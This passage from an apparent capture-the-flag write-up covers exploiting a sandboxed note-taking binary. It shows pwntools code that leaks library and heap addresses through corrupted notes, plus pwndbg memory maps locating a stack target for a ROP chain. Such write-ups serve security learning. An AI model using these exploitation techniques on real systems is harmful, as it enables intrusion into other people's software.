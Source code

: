 ```python title="solve.py"
# leak sandboxedlib.so and slab address
leak = view_note(0)
print_note = u64(leak[8:16])
sandboxed.address = u64(leak[8:16]) - 0xa8c3
heap = u64(leak[16:24])
print(hex(sandboxed.address))
print(hex(heap))

# leak library_runner
payload = flat(
    0x100, print_note,
    sandboxed.got.malloc
)
edit_note(3, payload)

leak = view_note(0)
library_runner.address = u64(leak[:8]) - library_runner.sym.malloc
print(hex(library_runner.address))
```

## ROP in sandbox

> Actually, when making this writeup, I realized that an easier method would
> have been to pivot our stack onto `notes[0]{:cpp}` by using the address of the
> note already stored in `rdi`, and afterwards to just construct our ROP chain
> on the note instead... anyway, I was lucky and managed to do the below too

If we take a closer look at the heap value we've leaked from our note earlier,
we can see that it's found in this region:

```
pwndbg> vmmap 0x7f5980010a40
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x562ebb3f6000     0x562ebb3f7000 rw-p     1000  64000 /srv/app/build/library_runner
►   0x7f5980000000     0x7f59c0000000 rw-p 40000000      0 /memfd:Verona Sandbox (deleted) +0x10a40
    0x7fb116174000     0x7fb11617d000 r--p     9000      0 /srv/app/build/sandboxedlib.so
```

This region looks way too huge to just contain a heap for `snmalloc`, doesn't
it? If we look further down, we can actually see that there's also a stack
that's found at a fixed offset from our heap region. This stack is used by
`library_runner` (and strangely, the actual stack region remains completely
unused) - so from our heap leak, we can determine a location to write our ROP
chain to! From GDB, the below region seems like a good candidate, having a
function pointer that looks like it returned from `view_note`. We'll be writing
our ROP chain here later.

```
pwndbg> tel 0x7fe900010a40+0x7ef3a8
00:0000│-0c8 0x7fe9007ffde8 —▸ 0x7f01ac24ecb7 (view_note()+136) ◂— mov eax, 1
01:0008│-0c0 0x7fe9007ffdf0 ◂— 0x17ffe10
02:0010│-0b8 0x7fe9007ffdf8 ◂— 0x1f2f93b17d878a00
03:0018│-0b0 0x7fe9007ffe00 —▸ 0x7fe9007ffe20 ◂— 0x2a00000000
04:0020│-0a8 0x7fe9007ffe08 —▸ 0x55ecfee040b3 (sandbox::platform::FutexOneBitSem::futex_op(int, int, timespec const*)+73) ◂— add rsp, 0x10
05:0028│-0a0 0x7fe9007ffe10 ◂— 0
06:0030│-098 0x7fe9007ffe18 —▸ 0x55ecfedfc90e (std::experimental::fundamentals_v2::source_location::current(char const*, char const*, int, int)+43) ◂— mov rax, qword ptr [rbp - 8]
07:0038│-090 0x7fe9007ffe20 ◂— 0x2a00000000
```
